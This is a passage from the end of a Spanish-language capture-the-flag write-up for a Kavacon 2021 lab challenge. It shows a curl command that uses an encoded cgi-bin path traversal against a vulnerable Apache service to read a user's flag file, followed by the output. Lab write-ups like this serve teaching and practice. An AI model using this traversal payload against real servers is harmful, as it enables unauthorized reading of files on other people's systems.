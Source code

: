 Vemos que el servicio Apache es vulnerable al CVE, y para nuestra sorpresa, el usuario "howard" está dentro de la máquina vulnerable con su correspondiente directorio "/home". Probaríamos revisar si se encuentra la flag en su ruta y...

```bash
curl "172.16.0.3/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/howard/flag.txt"

howard@necronomicon:~$ curl "172.16.0.3/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/howard/flag.txt"
flag{Bu3n_tr4b4j0_huM4nO}
```

![Untitled](/assets/images/content/CTF/Kavacon-2021/dejame/Untitled%2018.png){: .align-center}

Habemus flag!🏁🏆

---

Espero les haya gustado, y más allá de haber logrado o no obtener la flag, haya servido para aprender alguno que otro tip 😄.
